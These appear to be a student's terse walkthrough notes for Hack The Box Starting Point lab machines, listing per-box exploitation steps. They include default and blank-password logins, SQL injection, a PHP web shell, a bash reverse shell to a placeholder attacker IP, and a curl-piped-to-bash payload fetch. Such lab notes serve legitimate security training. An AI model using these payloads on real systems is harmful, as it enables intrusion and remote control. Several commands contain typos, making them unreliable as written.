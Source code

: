 # TIER 0

### Meow  
telnet as "root", blank password

### Fawn
ftp as anonymous, get flag.txt  

### Dancing  
smbclient -L {IP-address}  
smbclient \\\\{IP-address}\\WorkShares  
ls; cd ..; cd James.P; get flag.txt  

### Redeemer  
redis-cli -h {IP-address}
info  
keys *  
get Flag  

### Explosion
RDP as Administrator, no password  
xfreerdp /v:Administrator /cert:ignore /v:{IP-addess}  

### Preignition
gobuster -x php {IP-address}
http://{IP-address}/admini.php

# TIER 1
### Appoinment
SQLI on login page-> admin'#  

### Sequel
mysql -h {IP-address} -u root
SHOW databases;
USE htb; SHOW tables; SELECT * FROM config;

### Crocodile
ftp anonymous to get list of usernames/passwords
gobustoer -x php to find login.php
admin user goes to server page showing flag  

### Responder  
sudo get install evil-winrm  
evit-winrm -u Administrator -p badminton -i {IP-address}  

### Three  
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/DNS/subdomains-top1million-5000.txt  
gobuster vhost -w ./subdomains-top1million5000.txt -u http://thetoppers.htb  
yields "s3".thetopppers.htb
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb  
echo '<?php system($_GET["cmd"]); ?>' > shell.php  
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb  
http://thetoppers.htb/shell.php?cmd=id  
create shell.sh  
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1

nc -nvlp 1337
python3 -m http.server 8000  
http://thetoppers.htb/shell.php?cmd=curl%20<YOUR_IP_ADDRESS>:8000/shell.sh|bash  

### Ignition
http://ignition.htb/admin
admin:qwerty123

### Bike
SSTI send {{7+7}}. Use BURP repeater to have "Handlebars" provide data  

### Pennyworth
Jenkins/Groovy script for a reverse shell

### Tactics
SMB share, retrieve flag.txt  

# TIER 2
### Oopsie
[HTB write up](/writeups/oopsie.pdf)  
php upload a reverse shell, SUID escalation due to group membership


